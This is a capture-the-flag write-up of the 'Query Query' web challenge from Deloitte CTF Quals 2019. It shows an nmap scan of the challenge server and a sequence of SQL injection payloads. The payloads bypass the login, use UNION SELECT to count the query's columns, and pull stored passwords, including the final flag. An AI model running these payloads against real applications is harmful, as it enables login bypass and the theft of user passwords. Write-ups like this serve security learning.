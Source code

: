 ```yaml
---
title: Deloitte CTF Quals 2019: Query Query
slug: deloitte-query-query
date: 06/11/2019 04
---
```


*Query query on the wall.. Who's the fairest of them all? 👸🏻* was a task
labelled web and worth 120 points. It is a standard SQL injection.

![Task Description](/assets/query-query/intro.png)

Let's start with a quick nmap scan:

```
$ nmap 52.56.149.188
Starting Nmap 7.80 ( https://nmap.org ) at 2019-11-06 15:46 GMT
Nmap scan report for ec2-52-56-149-188.eu-west-2.compute.amazonaws.com (52.56.149.188)
  Host is up (0.0038s latency).
  Not shown: 990 closed ports
  PORT     STATE    SERVICE
  22/tcp   open     ssh
  25/tcp   filtered smtp
  53/tcp   filtered domain
  135/tcp  filtered msrpc
  139/tcp  filtered netbios-ssn
  443/tcp  open     https
  445/tcp  filtered microsoft-ds
  2000/tcp open     cisco-sccp
  5060/tcp open     sip
  8008/tcp open     http

Nmap done: 1 IP address (1 host up) scanned in 1.27 seconds
```

Just a web application on port 443:

![Web Application](/assets/query-query/web_app.png)

From the title of the challenge, we can imagine that our objective is to
perform an SQL injection. Let's try a very simple payload on the `username`
field of the `/login` page.

![Web Application](/assets/query-query/login.png)

A simple `'` crashes the application, so this field is most likely injectable.

![Web Application](/assets/query-query/crash.png)

Let's try to login as `user`. This particular username may not exist but
it will give us some information on how the application behaves:

```sql
user' OR 1=1 --
```

And we get logged as `TESTIING`.

![TESTIING](/assets/query-query/testiing.png)

*Note: Although it is not accessible via a link or button, a `/logout` route
exists and works.*

Let's try with a username that will most likely not exist:

```sql
does_not_exist' OR 1=1 --
```

We are logged as `TESTIING` again. Maybe the SQL query is very weird and still
manages to get this user. Let's ignore this for now and carry on.

According to the challenge description, the flag is the password of one of the
users stored in the database. Let's see if we can display `TESTIING`'s password.
We are going to use the `UNION SELECT` method, so the first step is to determine
how many columns are queried before our input.

```
whocares' UNION SELECT 1 --
whocares' UNION SELECT 1, 2 --
whocares' UNION SELECT 1, 2, 3 --
```

All these payloads crashes the application.

```sql
whocares' UNION SELECT 1, 2, 3, 4 --
```

This payload does not crash the application and logs us as `2`.

![Logged as 2](/assets/query-query/two.png)

Let's replace the numbers by actual column names. We guess that the `id`
column exists and that the password column is named `password`.

```sql
whocares' UNION SELECT id, password, id, id from users --
```

We are now logged as `monkey28`, which is the password of `TESTIING`.

![Logged as monkey](/assets/query-query/monkey.png)

Let's add a constraint on the password column that matches the flag format:

```sql
whocares' UNION SELECT id, password, id, id from users where password like "dctf%" --
```

And we have our flag!

![The flag](/assets/query-query/flag.png)

Final flag: `dctf{c0m3_0n_3113333n!}`.